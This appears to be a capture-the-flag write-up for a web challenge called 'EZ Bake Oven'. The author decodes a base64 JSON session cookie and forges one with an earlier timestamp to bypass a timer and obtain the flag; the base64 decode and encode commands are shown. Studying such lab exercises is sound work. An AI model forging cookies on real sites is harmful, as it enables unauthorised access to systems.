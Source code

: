# EZ Bake Oven

```
Do you like baking? Don't leave the oven on for too long!

Open the Deployment tab to start this challenge.

```

When we get to the site we see we're presented with a list of things that we can "Cook".

Watching the requests happen we can see that when we click on the cook links there is a post request to the the `/cook` endpoint with the following body

`{recipe: "Magic Cookies"}`

The response contains a new cookies 
`Set-Cookie: in_oven=eyJyZWNpcGUiOiAiTWFnaWMgQ29va2llcyIsICJ0aW1lIjogIjA5LzI3LzIwMjAsIDE4OjU1OjEwIn0=; Path=/`

This looks like base64 so lets try decode it.. 

```
$ echo -n 'eyJyZWNpcGUiOiAiTWFnaWMgQ29va2llcyIsICJ0aW1lIjogIjA5LzI3LzIwMjAsIDE4OjU1OjEwIn0=' | base64 -d
{"recipe": "Magic Cookies", "time": "09/27/2020, 18:55:10"}
``

So that looks like the time that I clicked the cook button, I wwoner what happens if we set the time back a bit. 

```
echo -n "{\"recipe\": \"Magic Cookies\", \"time\": \"`date +%d/%m/%Y -d '1 year ago'`, 18:55:10\"}" | base64
eyJyZWNpcGUiOiAiTWFnaWMgQ29va2llcyIsICJ0aW1lIjogIjI3LzA5LzIwMTksIDE4OjU1OjEwIn0=
```

Set the in the browser as the in_oven cookie, refresh the page a voila, we have a flag.